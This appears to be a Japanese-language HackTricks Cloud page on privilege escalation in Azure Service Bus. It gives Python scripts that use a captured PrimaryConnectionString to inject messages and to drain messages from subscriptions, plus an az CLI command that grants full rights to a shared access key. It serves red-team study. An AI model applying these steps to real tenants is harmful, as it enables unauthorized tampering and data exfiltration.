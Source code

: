 # Az - Service Bus Privesc

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Service Bus

詳細については、次を確認してください：

{% content-ref url="../az-services/az-servicebus-enum.md" %}
[az-servicebus-enum.md](../az-services/az-servicebus-enum.md)
{% endcontent-ref %}


### メッセージを送信します。アクション: `Microsoft.ServiceBus/namespaces/authorizationRules/listkeys/action` または `Microsoft.ServiceBus/namespaces/authorizationRules/regenerateKeys/action`

`PrimaryConnectionString`を取得できます。これはService Bus名前空間の資格情報として機能します。この接続文字列を使用すると、Service Bus名前空間として完全に認証でき、任意のキューやトピックにメッセージを送信し、システムと相互作用して操作を妨害したり、有効なユーザーを偽装したり、メッセージングワークフローに悪意のあるデータを注入したりする可能性があります。

{% code overflow="wrap" %}
```python
#You need to install the following libraries
#pip install azure-servicebus
#pip install aiohttp
#pip install azure-identity

import asyncio
from azure.servicebus.aio import ServiceBusClient
from azure.servicebus import ServiceBusMessage

# Constants
NAMESPACE_CONNECTION_STR = "<PrimaryConnectionString>"
TOPIC_NAME = "<TOPIC_NAME>"

# Function to send a single message to a Service Bus topic
async def send_individual_message(publisher):
# Prepare a single message with updated content
single_message = ServiceBusMessage("Hacktricks-Training: Single Item")
# Send the message to the topic
await publisher.send_messages(single_message)
print("Sent a single message containing 'Hacktricks-Training'")

# Function to send multiple messages to a Service Bus topic
async def send_multiple_messages(publisher):
# Generate a collection of messages with updated content
message_list = [ServiceBusMessage(f"Hacktricks-Training: Item {i+1} in list") for i in range(5)]
# Send the entire collection of messages to the topic
await publisher.send_messages(message_list)
print("Sent a list of 5 messages containing 'Hacktricks-Training'")

# Function to send a grouped batch of messages to a Service Bus topic
async def send_grouped_messages(publisher):
# Send a grouped batch of messages with updated content
async with publisher:
grouped_message_batch = await publisher.create_message_batch()
for i in range(10):
try:
# Append a message to the batch with updated content
grouped_message_batch.add_message(ServiceBusMessage(f"Hacktricks-Training: Item {i+1}"))
except ValueError:
# If batch reaches its size limit, handle by creating another batch
break
# Dispatch the batch of messages to the topic
await publisher.send_messages(grouped_message_batch)
print("Sent a batch of 10 messages containing 'Hacktricks-Training'")

# Main function to execute all tasks
async def execute():
# Instantiate the Service Bus client with the connection string
async with ServiceBusClient.from_connection_string(
conn_str=NAMESPACE_CONNECTION_STR,
logging_enable=True) as sb_client:
# Create a topic sender for dispatching messages to the topic
publisher = sb_client.get_topic_sender(topic_name=TOPIC_NAME)
async with publisher:
# Send a single message
await send_individual_message(publisher)
# Send multiple messages
await send_multiple_messages(publisher)
# Send a batch of messages
await send_grouped_messages(publisher)

# Run the asynchronous execution
asyncio.run(execute())
print("Messages Sent")
print("----------------------------")

```
{% endcode %}

### メッセージを受信する。アクション: `Microsoft.ServiceBus/namespaces/authorizationRules/listkeys/action` または `Microsoft.ServiceBus/namespaces/authorizationRules/regenerateKeys/action`
PrimaryConnectionStringを取得できます。これはService Bus名前空間の資格情報として機能します。この接続文字列を使用して、名前空間内の任意のキューまたはサブスクリプションからメッセージを受信でき、潜在的に機密または重要なデータにアクセスでき、データの流出を可能にしたり、メッセージ処理やアプリケーションのワークフローに干渉したりすることができます。

{% code overflow="wrap" %}
```python
#You need to install the following libraries
#pip install azure-servicebus
#pip install aiohttp
#pip install azure-identity

import asyncio
from azure.servicebus.aio import ServiceBusClient

NAMESPACE_CONNECTION_STR = "<PrimaryConnectionString>"
TOPIC_NAME = "<TOPIC_NAME>"
SUBSCRIPTION_NAME = "<TOPIC_SUBSCRIPTION_NAME>" #Topic Subscription

# Function to receive and process messages from a Service Bus subscription
async def receive_and_process_messages():
# Create a Service Bus client using the connection string
async with ServiceBusClient.from_connection_string(
conn_str=NAMESPACE_CONNECTION_STR,
logging_enable=True) as servicebus_client:

# Get the Subscription Receiver object for the specified topic and subscription
receiver = servicebus_client.get_subscription_receiver(
topic_name=TOPIC_NAME,
subscription_name=SUBSCRIPTION_NAME,
max_wait_time=5
)

async with receiver:
# Receive messages with a defined maximum wait time and count
received_msgs = await receiver.receive_messages(
max_wait_time=5,
max_message_count=20
)
for msg in received_msgs:
print("Received: " + str(msg))
# Complete the message to remove it from the subscription
await receiver.complete_message(msg)

# Run the asynchronous message processing function
asyncio.run(receive_and_process_messages())
print("Message Receiving Completed")
print("----------------------------")
```
### `Microsoft.ServiceBus/namespaces/authorizationRules/write` & `Microsoft.ServiceBus/namespaces/authorizationRules/write`
これらの権限がある場合、共有アクセスキーを読み取ったり作成したりすることで特権を昇格させることができます。これらのキーは、キュー、トピックの管理、メッセージの送受信を含むService Bus名前空間に対する完全な制御を可能にし、役割ベースのアクセス制御（RBAC）を回避する可能性があります。
```bash
az servicebus namespace authorization-rule update \
--resource-group <MyResourceGroup> \
--namespace-name <MyNamespace> \
--name RootManageSharedAccessKey \
--rights Manage Listen Send
```
## 参考文献

* https://learn.microsoft.com/ja-jp/azure/storage/queues/storage-powershell-how-to-use-queues
* https://learn.microsoft.com/ja-jp/rest/api/storageservices/queue-service-rest-api
* https://learn.microsoft.com/ja-jp/azure/storage/queues/queues-auth-abac-attributes
* https://learn.microsoft.com/ja-jp/azure/service-bus-messaging/service-bus-python-how-to-use-topics-subscriptions?tabs=passwordless
* https://learn.microsoft.com/ja-jp/azure/role-based-access-control/permissions/integration#microsoftservicebus

<details>

<summary>HackTricksをサポートする</summary>

* [**サブスクリプションプラン**](https://github.com/sponsors/carlospolop)を確認してください！
* **💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)または[**テレグラムグループ**](https://t.me/peass)に参加するか、**Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**をフォローしてください。**
* **ハッキングのトリックを共有するには、[**HackTricks**](https://github.com/carlospolop/hacktricks)と[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud)のGitHubリポジトリにPRを送信してください。**
</details>
{% endhint %}
